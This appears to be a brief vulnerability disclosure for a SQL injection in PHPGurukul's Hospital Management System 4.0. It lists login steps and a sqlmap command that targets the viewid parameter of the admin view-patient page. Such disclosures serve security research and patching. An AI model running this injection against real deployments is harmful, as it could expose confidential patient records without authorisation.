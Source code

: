 * Title: Hospital Management System SQLI
* Exploit Author: Thinkland Security Team  
* Vendor Homepage:https://phpgurukul.com/hospital-management-system-in-php  
* Software Link:https://phpgurukul.com/wp-content/uploads/2018/02/Hospital-Management-System-Project.zip  
* Version: 4.0  
* Vulnerability verification  
1. Enter username and password to log in  
2. Use sqlmap command： sqlmap.py -u http://192.168.50.34/Hospital%20Management%20System%20Project/hospital/hms/admin/view-patient.php?viewid=1 --batch --current-db
![image](https://github.com/BigTiger2020/Hospital-Management-System/blob/main/sql.png)  
